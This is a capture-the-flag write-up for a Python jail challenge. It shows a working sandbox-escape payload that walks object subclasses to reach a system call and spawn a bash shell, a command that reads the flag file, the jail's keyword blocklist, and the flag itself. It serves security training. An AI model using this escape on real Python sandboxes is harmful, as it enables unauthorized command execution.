# Snake Game

## Challenge

Hi, TCC-CSIRT analyst,

Snakes are wonderful creatures, and everyone loves them. Many people enjoy playing with snakes and find them fascinating companions. One of them lives on `snakegame.leisure.tcc` on port `23001/TCP`.

See you in the next incident!

Hint: The snake is actually a Python.

## Solution

The challenge involves interacting with a Python-based input validator that restricts the use of certain keywords like `eval`, `import`, `os`, and others. We explored ways to bypass these restrictions and ultimately obtain the flag.

### 1. Initial Exploration

We tried several methods that were blocked:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : __import__('os')
This is not allowed: import
```

Similarly, using eval was blocked:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : eval(input())
This is not allowed: eval
```

### 2. Bypassing Restrictions with Object Introspection

We were able to bypass the input validation using object introspection to access Python internals and execute commands:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : ().__class__.__mro__[1].__subclasses__()[140].__init__.__globals__["System".lower()]("/bin/bash")
```

Once we obtained a shell, we explored the file system and discovered the `/flag.txt` file but reading it directly with cat didn't work due to some redirection.

### 3. Bypassing Output Redirection

To bypass the output redirection, we invoked Python and read the flag:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : ().__class__.__mro__[1].__subclasses__()[140].__init__.__globals__["System".lower()]("/bin/bash")

python -c "print(open('/flag.txt').read())"
FLAG{lY4D-GJaQ-VUks-PNQd}
```

We also inspected the jail's Python code:

```python
import string

print('Hello, I can only speak Python, show me your code.')
code = input('Enter your code : ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 
                'os', 'builtins', "'", '""', '+', '*' ]:
    if keyword in code:
        print('This is not allowed:', keyword)
        break
else:
    try:
        print(eval(code, {'__builtins__': {'str': str}}))
    except Exception as e:
        print(f'I\'m confused - {e}')
```

## Flag

```
FLAG{lY4D-GJaQ-VUks-PNQd}
```

